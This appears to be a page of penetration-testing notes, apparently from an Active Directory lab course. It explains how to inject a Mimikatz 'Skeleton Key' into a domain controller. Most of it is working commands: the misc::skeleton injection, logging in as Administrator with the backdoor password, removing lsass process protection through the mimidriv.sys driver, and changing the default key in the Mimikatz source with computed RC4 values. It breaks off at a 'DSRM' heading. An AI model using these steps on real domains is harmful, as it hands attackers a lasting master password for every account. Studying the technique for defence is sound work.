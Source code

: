 Use the below command to inject a skeleton key (password would be mimikatz) on a Domain Controller of choice. 

> DA privileges required
```powershell 
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

Now, it is possible to access any machine with a valid username and password as **mimikatz**:
```powershell
Enter-PSSession -Computername dcorp-dc -credential dcorp\Administrator
```


In case lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (**mimidriv.sys**) on disk of the target DC:
```powershell
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```

> [NOTE] That above would be **very noisy in logs** - Service installation (Kernel mode driver) 


You may like to modify the default key injected by Mimikatz!

[Line 611 in kuhl_m_misc.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimikatz/modules/kuhl_m_misc.c#L611)


For example, to use **S3c3rtP@ss**, compute its RC4 and split it into 8 bytes stubs:
```powershell
56aa742a
6bebb9ca
62fc9f70
a2e00cd3
```

-  Reverse the values by 2 bytes

```powershell
2a74aa56
cab9eb6b
709ffc62
d30ce0a2
```

Prepend 0x to each and modify kiwikey array value in the code linked above
```powershell
DWORD kiwiKey[] = {0x2a74aa56, 0xcab9eb6b, 0x709ffc62, 0xd30ce0a2}
```


## DSRM
Directory Services Restore Mode
